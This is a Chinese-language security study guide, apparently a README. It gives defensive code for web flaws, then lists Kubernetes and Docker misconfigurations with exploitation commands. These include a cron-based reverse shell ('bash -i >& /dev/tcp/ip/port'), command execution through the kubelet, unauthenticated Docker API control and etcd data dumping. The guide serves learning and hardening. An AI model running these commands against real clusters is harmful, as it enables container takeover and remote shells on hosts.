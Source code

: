 # **1. 基础应用安全**

## **1.1 Web安全**

### **1.1.1 SQL注入**

防御代码：参数化查询

```bash
def get_user_info(safe_username):
	conn = sqlite3.connect("test.db")
	cursor = conn.cursor()
	query = "SELECT * FROM users WHERE username = ?"
	cursor.execute(query, (safe_username,))
	result = cursor.fetchall()
	conn.close()
	return result
```

### **1.1.2 跨站脚本（XSS）**

防御代码：Flask 中常用的模板引擎 Jinja2 默认会对模板中的变量输出进行 HTML 自动转义

```bash
<p>{{ user_input }}</p>
```

### **1.1.3 跨站请求伪造（CSRF）**

防御代码：为每个用户会话或表单生成一个随机CSRF TOKEN用于验证，有很多框架已内置这种防护手段，例如 Flask 的 Flask-WTF

```bash
from flask import Flask, render_template, request, redirect, url_for
from flask_wtf import FlaskForm, CSRFProtect
from wtforms import StringField, SubmitField

app = Flask(__name__)
app.secret_key = '你的密钥'
csrf = CSRFProtect(app)

class MyForm(FlaskForm):
    username = StringField('用户名')
    submit = SubmitField('提交')

@app.route('/submit', methods=['GET', 'POST'])
def submit():
    form = MyForm()
    if form.validate_on_submit():
        # 处理业务逻辑
        return redirect(url_for('success'))
    return render_template('form.html', form=form)

@app.route('/success')
def success():
    return "提交成功！"

if __name__ == '__main__':
    app.run(debug=True)
```

### **1.1.4 服务端请求伪造（SSRF）**

防御代码：

1、多次解析比较结果是否相同

2、白名单访问域名

3、黑名单访问IP（云服务内网地址）

```bash
import requests
import socket
import time
import ipaddress
import dns.resolver  # 需要安装 dnspython： pip install dnspython
from urllib.parse import urlparse

def get_ips(domain):
    """利用 dnspython 获取域名对应的所有 A 记录 IP"""
    try:
        answers = dns.resolver.resolve(domain, 'A')
        return sorted([str(rdata) for rdata in answers])
    except Exception as e:
        raise ValueError(f"解析域名 {domain} 时出错: {e}")

def is_private_ip(ip):
    try:
        ip_obj = ipaddress.ip_address(ip)
        return ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local
    except Exception:
        return True  # 无法解析的 IP，视为不安全

def safe_fetch_url(url, allowed_domains=["example.com", "api.example.com"], delay=2):
    """
    1. 检查域名是否在允许列表中。
    2. 进行 DNS 解析，判断解析结果不包含内网 IP。
    3. 延时后再次解析，确保解析结果未变化（防止 DNS 重绑定）。
    """
    parsed_url = urlparse(url)
    hostname = parsed_url.hostname

    # 检查域名白名单
    if hostname not in allowed_domains:
        raise ValueError("域名不在允许列表中")

    # 第一次 DNS 解析
    initial_ips = get_ips(hostname)
    for ip in initial_ips:
        if is_private_ip(ip):
            raise ValueError(f"初次解析发现禁止访问的内网 IP: {ip}")

    # 等待一定时间后再次解析
    time.sleep(delay)
    subsequent_ips = get_ips(hostname)
    if initial_ips != subsequent_ips:
        raise ValueError("检测到 DNS 重绑定风险：初次解析 IP 与后续解析 IP 不一致")
    
    # 附加检查：明确屏蔽常见云服务内网地址
    blocked_ips = ["169.254.169.254"]  # AWS 元数据服务示例，可根据情况增加
    for ip in subsequent_ips:
        if ip in blocked_ips:
            raise ValueError(f"禁止访问云环境内部敏感地址: {ip}")

    # 发起请求
    response = requests.get(url, timeout=5)
    return response.text
```

### **1.1.5 命令注入（Command Injection）**

防御代码：以列表的方式传递命令及其参数而不启用shell

```bash
def safe_execute(p):
	subprocess.run(["ls",p])
```

### **1.1.6 文件包含漏洞（LFI/RFI）**

同下

### **1.1.7 路径穿越（Path Traversal）**

防御代码：os.path.abspath 将路径转化为绝对路径，内部会对路径进行规范化

```bash
def safe_read_file(filename):
	base_dir = os.path.abspath('/var/app/data')
	request_path = os.path.abspath(os.path.join(base_dir,filename))
	#白名单校验：
	if not request_path.startswith(base_dir):
		return
	with open(request_path, 'r') as f:
		content = f.read()
	return content
```

### **1.1.8 浏览器安全（安全机制与响应头）**

**同源策略（Same Origin Policy, SOP）**

- 同源：同协议、端口、域名
- 策略：限制跨域数据访问，防止恶意网站窃取敏感信息（XSS、CSRF）

**跨域资源共享（CORS）**

通过在HTTP响应头中添加一些字段如Access-Control-Allow-Origin、Access-Control-Allow-Methods来实现功能：确保只有来自指定源的请求可以跨域访问后端 API。

**内容安全策略（CSP）**

通过在HTTP响应头中添加字段 Content-Security-Policy 来限制页面可以加载哪些外部资源（脚本、样式、图片等）。这样可以有效防止 XSS 攻击及其它资源注入问题。

```bash
csp_policy = (
        "default-src 'self'; "
        "script-src 'self' https://trustedscripts.example.com; "
        "style-src 'self'; "
        "img-src 'self' data:;"
    )
response.headers['Content-Security-Policy'] = csp_policy
```

**其它重要的安全响应头**

•	**X-Frame-Options：**

这个头设计出来就是为了防止点击劫持（Clickjacking）的，禁止或限制页面被嵌入到 <iframe> 中。常见配置有 DENY 或 SAMEORIGIN。

```bash
response.headers['X-Frame-Options'] = 'SAMEORIGIN'
```

•	**X-XSS-Protection：**

启用浏览器内置的 XSS 过滤器，配置为 1; mode=block 可以在检测到 XSS 攻击时阻止页面渲染。

```bash
response.headers['X-XSS-Protection'] = '1; mode=block'
```

•	**X-Content-Type-Options：**

禁用浏览器的 MIME 类型嗅探（MIME Sniffing），确保浏览器按照服务器声明的 Content-Type 解析内容，从而防止某些内容被误解释为可执行代码。

```bash
response.headers['X-Content-Type-Options'] = 'nosniff'
```

**总结：**

```bash
def set_security_headers(response):
    # CSP 策略
    csp_policy = (
        "default-src 'self'; "
        "script-src 'self' https://trustedscripts.example.com; "
        "style-src 'self'; "
        "img-src 'self' data:;"
    )
    response.headers['Content-Security-Policy'] = csp_policy
    # 防点击劫持
    response.headers['X-Frame-Options'] = 'SAMEORIGIN'
    # XSS 过滤
    response.headers['X-XSS-Protection'] = '1; mode=block'
    # 禁止 MIME 嗅探
    response.headers['X-Content-Type-Options'] = 'nosniff'
    return response
```

## **1.2 代码审计**

### **静态代码分析（SAST）**

### **动态代码分析（DAST）**

### **安全代码编写最佳实践**

## **1.3 身份验证与授权**

### **密码安全**

### **多因素认证（MFA）**

### **OAuth和OpenID Connect**

### **会话管理**

## **1.4 数据安全**

### **数据加密**

### **数据泄露防护（DLP）**

### **隐私保护（GDPR、CCPA）**

## **1.5 中间件与CMS安全**

# **2. 网络安全**

## **2.1 网络协议安全**

## **2.2 网络攻击防护**

## **2.3 网络设备安全**

## **2.4 端口与服务安全**

## **2.5 常见高危端口**

## **2.6 特定服务的安全**

# **3. 云安全**

# **4. [容器安全](https://github.com/neargle/my-re0-k8s-security?tab=readme-ov-file#7-%E5%AE%B9%E5%99%A8%E5%AE%B9%E5%99%A8%E7%BC%96%E6%8E%92%E7%BB%84%E4%BB%B6-api-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E6%88%96%E6%9C%AA%E9%89%B4%E6%9D%83)（Kubernetes与Docker）**

首先进行一些概念的介绍：

1. **容器（Container）**
    1. 具体概念：一台轻量级的服务器（包含对应的服务和环境依赖等）
    2. 抽象概念：运行在用户空间中的轻量级执行环境，确保应用在不同环境中的一致性。
2. **Pod**
    1. 具体概念：包含一个或多个容器
    2. 抽象概念：Kubernetes的调度单位，代表在同一环境中运行的一个或多个容器，通常用于表示一个服务的实例。
3. **Node**
    1. 具体概念：实际运行的计算机，是 Kubernetes 集群中的物理或虚拟机，
    2. 抽象概念：Kubernetes 集群中的一个工作节点
4. **namespace：**
    1. 具体概念：
        1. 在同一个node上
        - **Namespace: production**
            - **Pod**: frontend
            - **Pod**: backend
        - **Namespace: development**
            - **Pod**: frontend-dev (开发版前端)
            - **Pod**: backend-dev (开发版后端)
        1. 不同node上
        - **Namespace: production**
            - **Pod: frontend**（在 Node1 上运行）
            - **Pod: backend**（在 Node2 上运行）
        - **Namespace: development**
            - **Pod: frontend-dev**（在 Node1 上运行）
            - **Pod: backend-dev**（在 Node2 上运行）
    2. 抽象概念：一种逻辑分组，用于组织和隔离 Kubernetes 中的资源，每个 Namespace 可以包含多个 Pods 和其他资源（如 Services、Deployments 等）。
    
    k8s集群中的概念之间的关系：
    
    1. **容器（Container）**
        - 最小的执行单元，可以运行应用程序和其依赖项。每个容器共享操作系统内核，但在用户空间中相互隔离。
        - 一个 Pod 可以包含一个或多个容器。
    2. **Pod**
        - Kubernetes 中的基本调度单元，表示一组一个或多个容器，这些容器共享网络和存储。
        - Pod 中的容器可以相互通信，通常用于构成一个应用程序的不同部分。
    3. **Node**
        - Kubernetes 集群中的一个工作机器（物理或虚拟），用于运行 Pod。每个 Node 都有一个 Kubelet 代理来管理其上的 Pod。
        - 每个 Node 可以运行多个 Pod。
    4. **集群（Cluster）**
        - 由多个 Node 组成的集合，共同提供计算资源和服务。
        - Kubernetes 集群通常由控制平面和多个工作 Node 组成。
    5. **虚拟机（VM）**（可选）
        - 在某些情况下，Node 可以是虚拟机，通过虚拟化技术在物理计算机上运行。
        - 一台物理计算机可以托管多个虚拟机，每个虚拟机可以作为一个独立的 Node。
    6. **物理计算机（Physical Machine）**
        - 实际的硬件设备，可以运行虚拟化软件来创建多个虚拟机（Nodes），并在这些虚拟机上运行 Kubernetes 集群。
    
    总结起来就是：**容器** → **Pod** → **Node** → **集群** → **虚拟机** （可选）→ **物理计算机**。
    

## **4.1 Kubernetes**

如下是可能会出现漏洞或其他问题的，服务组件端口和相关配置操作：

| 服务 | 端口号 | 简介 |
| --- | --- | --- |
| Api Server | 6443 (HTTPS需要认证)
8080 (HTTP无需认证) | 集群的控制平面，提供管理、调度和操作集群的 REST API。（端口默认） |
| kubectl proxy（命令非服务） | N/A | 代理服务器，将 API 请求转发到 Kubernetes 集群。（端口自定义） |
| kubelet | 10250
10255 | 负责在每个节点（Node）上管理和运行容器。Kubelet 是每个节点上的代理程序，确保容器按照定义的 Pod 配置运行，并与 Kubernetes 集群的控制平面（API Server）进行通信。10250 用于安全通信，10255 是非安全端口。 |
| Dashboard | 30000 | Web UI。 |
| Docker API | 2375 | Docker 引擎的 HTTP 接口，用于管理容器。 |
| ETCD | 2379
2380 | Kubernetes 的分布式键值存储，用于存储集群数据。2379 为客户端通信端口，2380 用于集群成员之间的通信。 |
| kube-controller-manager | 10252 | 负责控制集群状态的组件，管理控制循环逻辑。 |
| kube-proxy | 10256
31442 | 负责管理节点网络流量的负载均衡与路由。10256 是默认控制端口，31442 用于服务间通信。 |
| kube-scheduler | 10251
10259 | 负责将调度的工作负载分配到合适的节点。 |
| cAdvisor | 4194 | Contrainer metrics |

接下来是具体的漏洞和相关问题介绍，以及最佳安全实践。

### 4.1.1 Api Server

Kubernetes API Server（API服务器）是Kubernetes集群的中央组件，提供RESTful API，允许用户、客户端和其他组件与集群交互，执行资源管理、身份验证、授权和状态查询等功能，是集群控制和管理的入口点。默认情况下 Api Server 在 8080 和 6443 两个端口上提供服务。

**8080未授权访问漏洞：**可控制已经创建的容器 && 新建 Pod 反弹 shell。

```bash
控制已创建的容器：
kubectl -s http://ip:8080 get pods -n default #在default的namespace下获取所有的pod
kubectl -s http://ip:8080 exec -it nginx-pod -n default bash #进入到并控制具体的pod
新建 Pod 反弹 shell：
kubectl -s http://ip:8080 create -f myapp.yaml #新建pod，并挂载上宿主机的/mnt.
kubectl -s http://ip:8080  exec -it myapp -n default bash #进入新建pod
echo '*/1 * * * * bash -c "bash -i >& /dev/tcp/ip/port 0>&1"' > /mnt/var/spool/cron/crontabs/root #写计划任务反弹宿主机的shell
```

**6443配置错误：**误将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使6443 端口允许匿名用户以管理员权限向集群内部下发指令（导致无需认证）。漏洞危害和利用同上。

配置错误的命令如下

```bash
kubectl create clusterrolebinding system:anonymous --clusterrole=cluster-admin --user=system:anonymous
```

### 4.1.2 kubectl proxy(命令非服务)

如果在集群的 POD 上开放一个端口并用 ClusterIP Service 绑定创建一个内部服务，如果没有开放 NodePort 或 LoadBalancer 等 Service 的话，是无法在集群外网访问这个服务的（除非修改了 CNI 插件等）。如果想临时在本地和外网调试的话，kubectl proxy 是个不错的选择。而 kubectl proxy 转发的是 apiserver 所有的能力，而且是默认不鉴权的，所以 --address=0.0.0.0 就是极其危险的。

**配置错误**的命令如下

```bash
kubectl proxy --insecure-skip-tls-verify --accept-hosts='^.*$' --address='0.0.0.0'
```

### 4.1.3 kubelet

**10250未授权访问漏洞：**该端口在最新版 Kubernetes 是有鉴权的，但旧版本或错误的配置会导致问题的发生。

访问如下连接会返回相关数据则证明漏洞存在（下面会用到的数据%namespace%、%pod_name%、%container_name%）

```bash
https://ip:10250/pods
```

漏洞危害和利用如下（任意命令执行、反弹shel、寻找token进一步控制Api Server等等……）

```bash
curl -k -XPOST "https://k8s-node-1:10250/run/%namespace%/%pod_name%/%container_name%" -d "cmd="
```

**10255未授权访问漏洞：**本身为只读端口，开放之后默认不存在鉴权能力，无法直接利用在容器中执行命令，但是可以获取环境变量 ENV、主进程 CMDLINE 等信息，里面可能包含密码和秘钥等敏感信息。

```bash
/metrics;/metrics/cadvisor;/metrics/resource;/metrics/probes;/stats/summary;/pods;
试了下上述的api都可，其余被禁。具体细节见官网文档。
示例如下：
https://ip:10255/pods
```

### 4.1.4 Dashboard

两个**配置错误**

在deployment中开启enable-skip-login，那么就可以在登录界面点击跳过登录进dashboard；

```bash
--enable-skip-login
```

将默认的Kubernetes-dashboard绑定cluster-admin，拥有管理集群管权限

```bash
kubectl create clusterrolebinding dashboard-1 --clusterrole=cluster-admin --serviceaccount=kubernetes-dashboard:kubernetes-dashboard
```

### 4.1.5 Docker API

**2375未授权访问漏洞：**

访问如下URL后， 观察路径是否含有 ContainersRunning、DockerRootDir 等关键字来判断漏洞是否存在

```bash
http://[host]:2375/info
```

可以使用如下方式控制目标 docker，后续利用手法同上（创建特权容器；挂载；写进计划任务或ssh公钥）

```bash
 docker -H tcp://[HOST]:2375 
```

### 4.1.6 ETCD

在安装完 K8s 后，默认会安装 etcd 组件，etcd 是一个高可用的 key-value 数据库，它为 k8s 集群提供底层数据存储，保存了整个集群的状态。

**未授权访问漏洞：**如果目标在启动 etcd 的时候没有开启证书认证选项，且 2379 端口直接对外开放的话，则存在 etcd 未授权访问漏洞。

可利用如下Nuclei的yaml文件POC，来判断是否存在未授权访问，注意不同版本：v2和v3

```
- method: GET
  path:
    - "{{BaseURL}}/v2/keys/"

  matchers-condition: and
  matchers:
    - type: word
      part: body
      words:
        - '"node":'
        - '"dir":true'
      condition: and

    - type: word
      part: header
      words:
        - "application/json"

    - type: status
      status:
        - 200

- method: POST
  path:
    - "{{BaseURL}}/v3/kv/range"
  headers:
    Content-Type: application/json
  body: |
    {
      "key": "Lw=="
    }
  matchers:
    - type: word
      words:
        - "cluster_id"
        - "member_id"
      condition: and
    - type: status
      status:
        - 200
```

漏洞利用获取数据的话可以通过etcdctl，注意要根据目标（http还是https；v2版本还是v3版本）来对命令进行修改

```bash
etcdctl --endpoints= get / --prefix
```

### 4.1.7 kube-controller-manager

**10252端口未授权访问：**主要出现在 kube-controller-manager 暴露健康检查的 HTTP 服务上。默认情况下，该端口并不启用认证，因此未经授权的访问可能会导致敏感信息泄露，攻击者可以利用它来获取有关 kube-controller-manager 的状态、集群信息等，从而进一步加深对集群的了解。

访问如下URL来判断问题是否存在

```bash
http://<target-ip>:10252/metrics
http://<target-ip>:10252/healthz
```

### 4.1.8 kube-proxy

kube-proxy是一个运行在Kubernetes集群中每一个节点上的网络代理，它的任务就是管理Pods和服务之间的连接。Kubernetes服务会暴露一个clusterIP，并且可能由多个后端Pods组成以实现均衡负载。一个服务一般由三个Pods组成，每一个都拥有其自己的IP地址，但是它们只会暴露一个clusterIP，假设是“10.0.0.1”。Podas在访问目标服务时，会将数据包发送给它的clusterIP，也就是“10.0.0.1”，但随后数据包必须重定向给其中一个Pods。在这里，kube-proxy的作用就是为每一个节点提供路由表服务，这样才能保证请求能够正确路由至其中一个Pods。

CVE-2020-8558

### 4.1.9 kube-scheduler

**10251端口未授权访问：**健康检查接口（healthz），用于暴露 kube-scheduler 的健康状态信息。此端口使用 HTTP 协议，通常没有身份认证，因此未加保护的暴露可能导致信息泄露。

**10259端口未授权访问：**监控接口（metrics），用于暴露 kube-scheduler 的监控指标。此端口通常是 HTTPS，并默认限制为本地访问。

### 4.1.10 cAdvisor

cAdvisor（Container Advisor） 默认会在 4194 端口开放 Web 界面，用于监控容器的资源使用情况（如 CPU、内存、网络和磁盘使用等）。该服务通常在 Kubernetes 中被启用，用来为容器集群提供实时的性能数据。

**4194端口未授权访问：**访问如下URL即可查看主机上运行的容器状态信息

```bash
http://<host-ip>:4194
```

## 4.2 **Docker**

# **5. 风控**

# **6. 移动安全**

# **7. 应急响应**

## 7.1 事件发现

1、监控（SIEM、SOC、IDS、IPS等）与日志的异常

2、SDL 自动化生成的告警 or 其他手段工具发现的问题

3、威胁情报

## 7.2 事件追踪

1、时间线

2、优先级分类

## 7.3 事件分析

先理解为什么会有该安全事件，然后站在攻击者的角度，思考，我能干什么，一步一步复原整个过程。（这步我觉得最重要，分析得出漏洞的原因，以及造成的影响和危害，以及下面一个阶段的“我们接下来如何去做”）

## 7.4 协调处理与应急响应

1、一旦确认安全事件，立即启动应急预案，采取措施如隔离受感染系统、阻断攻击流量、封堵漏洞入口等。

2、与网络、运维、应用、容器等团队保持及时沟通，确保响应过程中各个环节的信息共享与配合。

3、在应急响应后，组织团队修复漏洞、清除后门，并确保系统安全恢复到正常状态。
